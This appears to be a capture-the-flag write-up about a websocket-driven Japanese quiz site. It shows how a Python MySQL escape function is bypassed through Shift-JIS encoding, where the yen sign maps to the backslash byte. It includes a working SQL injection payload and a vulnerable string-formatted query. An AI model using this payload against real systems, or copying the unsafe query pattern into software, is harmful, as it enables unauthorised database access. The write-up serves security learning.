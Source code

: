 ### Solution
We are presented with a japanese website, with javascript on the client side
interacting with a mysql server over websockets.
 
On inspection of the server side code provided, we can see that the escape function
 is relatively sound, however it depends entirely on python strings.

``` python
# List from http://php.net/manual/en/function.mysql-real-escape-string.php
MYSQL_SPECIAL_CHARS = [
  ("\\", "\\\\"),
  ("\0", "\\0"),
  ("\n", "\\n"),
  ("\r", "\\r"),
  ("'", "\\'"),
  ('"', '\\"'),
  ("\x1a", "\\Z"),
]
def mysql_escape(s):
  for find, replace in  MYSQL_SPECIAL_CHARS:
    s = s.replace(find, replace)
  return s
```
 
We can also see that the language for database communications has been
set to sjis (supposedly so that it uses less bytes)

``` python
# Use Shift-JIS for everything so it uses less bytes
Response.charset = "shift-jis"
connect_params["charset"] = "sjis"
```

Another point of interest is the database queries section, specifically 
the section that has a select query. Presumably the flag is the first row in the database

``` python
...
      elif message["type"] == "get_answer":
        question = mysql_escape(message["question"])
        answer = mysql_escape(message["answer"])
        cursor.execute('SELECT * FROM answers WHERE question="%s" AND answer="%s"' % (question, answer))
        ws.send(json.dumps({"type": "got_answer", "row": cursor.fetchone()}))
...
```

After a bit of googling, we find out that sjis has replaced the backslash character
with the yen symbol (u00a5)- so in sjis systems, that character represents the same
byte value as the backslash character. This means that if we send the yen
symbol to python - it won't escape it, since it's a different byte value,
however when the database reads it, it reads it as 0x5c, which is an escape. We
can use this to our advantage to craft a payload that does a little bit of sql injection.
Another thing we have to be aware of is the message needs to be valid json, or the
server will close the connection.

The crafted json to send to the websocket:

``` json

{"answer": "", "question": "\u00a5\" or 1 = 1;", "type": "get_answer"}

```

and the resulting query:
``` sql
SELECT * FROM answers WHERE question="¥\" or 1 = 1;" AND answer=""
```
